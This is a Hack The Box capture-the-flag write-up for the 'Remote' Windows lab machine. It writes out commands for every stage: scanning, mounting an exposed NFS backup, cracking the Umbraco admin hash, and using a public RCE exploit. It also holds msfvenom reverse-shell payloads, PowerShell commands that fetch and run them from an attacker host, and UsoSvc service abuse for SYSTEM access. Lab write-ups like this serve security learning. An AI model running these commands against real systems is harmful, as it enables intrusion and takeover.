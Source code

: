 ```yaml
---
title: Remote
date: 2020-07-05
hero: /images/posts/hack-the-box/remote.png
categories:
- hack-the-box
tags:
- windows
- umbraco
- rpc
- mounting
- session jacking
---
```


# Remote

```
export IP=10.10.10.180
```

## Tools

* nmap
* python3
* rpcbind
* mount
* winPEAS

## Walkthrough

First things first, we need to do a `nmap` scan with the command `nmap -sS -sV -oA nmap/remote $IP`. Here are my results.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-05 01:28 EDT
Nmap scan report for 10.10.10.180
Host is up (0.056s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
111/tcp  open  rpcbind       2-4 (RPC #100000)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.97 seconds
```

Looks like there is a website being hosted on this box, so let's check that out. Well after poking around the website I found a login page that was linked to on the contact page.

Login Page
  - http://10.10.10.180/umbraco/#/login/false?returnPath=%252Fforms
  - http://10.10.10.180/install

This link also tells us something about the website. They are using `unbraco` for their CMS. If we could find the version number maybe there is some sort of exploit.

After poking around the source of the login page, nothing stood out to me off the bat, so I am going to try and fuzz some directories. I am using `ffuf` to discover directories. I used the command `ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .txt,.php,.html,.json,.xml`. Interesting enough there is a directory called `install` that redirects you to the login page.

Let's try to enumerate the `/umbraco/` directory to see if we find anything interesting. Well the only thing I found that I could see was a path to `/umbraco/application` after investigating this there doesn't seem like much. I am going to try and research some of the other services running on the machine to maybe poke around in.

I am going to try scanning the `rpcbind` service with the command `nmap -sV --script=nfs-showmount 10.10.10.180` maybe there is some sort of file system that we can mount and view. Looks like there is a discoverable file system called `/site_backups`. Hmm this is interesting, maybe we can find credentials on that. Let's figure out how to access it. Okay so to mount the file system I used the command `sudo mount -t nfs 10.10.10.180:/site_backups /mnt`. Now we can see the contents of `/site_backups` in our `/mnt` folder. Let's do some exploring. After looking around it looks like this is a backup of the CMS `umbraco` so I did some googling and it looks like all the credentials are located in a database, so let's see if that was backed up or not. After some more searching I found [this](https://our.umbraco.com/forum/umbraco-7/using-umbraco-7/74780-how-do-i-check-what-db-umbraco-is-using) fourm post about the database location being in `Umbraco/AppData/umbraco.sdf`. So I used the command `find /mnt | grep -i '.sdf'` and found the file. When I try and `cat` it out it is a mess and since some of the data is binary I cannot `grep` it, but I can use the command `strings /mnt/App_Data/umbraco.sdf` to see just the ascii readable characters. Then I `grep` for 'admin' and noticed some hashes at the top. I went to `crackstation` and it turns out that the admin password is `baconandcheese`. If we try an login with the credentials `admin@htb.local::baconandcheese` we can get into the admin page.

```
Credentials:
  - Umbraco Admin
    admin@htb.local::baconandcheese
```

After poking around the admin panel for a little bit I didn't find anything too interesting to me, but I did find out that this host is running `Umbraco version 7.12.4`, and it turns out there is an authenticated (check) remote code execution exploit for this very version! What a coincidence! [Here](https://github.com/noraj/Umbraco-RCE) is the code now we just need to craft a reverse shell for the windows machine. I used the command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f exe > reverse.exe` to create a reverse shell payload. Now we just need to get it on the target machine. We can start a server on our own machine using the command `python3 -c http.server`. Now we are hosting a server that our payload is on. When I use the command `python3 exploit.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command curl -UseBasicParsing -o C:\\Users\\Public\\Documents\\reverse.exe http://10.10.14.5:8000/Umbraco-RCE/reverse.exe'` I am getting a 200 code on my simple server, suggesting that the file has been downloaded, or at least accessed. We can check if we use the command `python3 exploit.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command Get-ChildItem -Path C:\\ -Filter reverse.exe -Recurse -ErrorAction SilentlyContinue -Force'`. This command will find the file on the system and should return the file and it's read/write permissions.

Now that we have our payload uploaded to the server we can start a listener on our machine using the command `nc -lvnp 1337` and run the command `python3 exploit.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command C:\\Users\\Public\\Documents\\reverse.exe'` to run the reverse shell on the machine. If we take a look at our listener we should see the shell pop up. If we take a look around we can find `user.txt` at the path `C:\Users\Public\user.txt`. You can read the file with the `type` command.

Time to look for some avenues for privilege escalation. The first thing I ran is `whoami /priv` and got the following.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled *
SeImpersonatePrivilege        Impersonate a client after authentication Enabled *
SeCreateGlobalPrivilege       Create global objects                     Enabled *
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I put stars near the permissions that stood out to me. The most interesting thing to me is `SeImpersonatePrivilege`. This sounds like I should be able to impersonate the `ns authority` user.

I did a `winPEAS` scan. Getting it to work on the machine was kinda tricky because something was wrong with the version I had. Anyways I got the binary from [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases/winPEASany.exe). Then I spawned a simple server on my machine and used the command `curl -o winPEASany.exe http://10.10.14.5:8000/winPEASany.exe`. Then I ran the program. You can see the output in `winPEAS/remote.txt`.

Okay so now I am running another check. I am using `PowerUp.ps1` to check the system. This was a bit hard to get working, but I found a good tutorial [here](https://recipeforroot.com/advanced-powerup-ps1-usage/). Make sure you follow it step by step, and I got it on the server in the usual way by using a simple python server. After running it it looks like the `UsoSvc` service is vulnerable, maybe I can craft another reverse shell payload and execute it as `ns authority`.

Okay here is how I did it, After discovering the `UsoSvc` I continued to read the `PowerUp` article and read that you can execute commands as a privileged user. For our instance we use the command `Invoke-ServiceAbuse -Name 'UsoSvc' -Command "[command_here]"`. If we upload another reverse shell to the server on another port then we can spawn a reverse shell as `ns authority`. I used the following command to craft a payload `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f exe > root_reverse.exe` then to get it on the server I created another simple server. Then open up a listener on port 1234. After the file is on the server run the shell using `Invoke-ServiceAbuse -Name 'UsoSvc' -Command "C:\Users\Public\root_reverse.exe"`. Then we can catch the shell and we are `ns authority`! The flag can be found on the admin's desktop. This was a pretty hard box for me. I am not that familiar with windows services, but I am glad I took on the challenge.
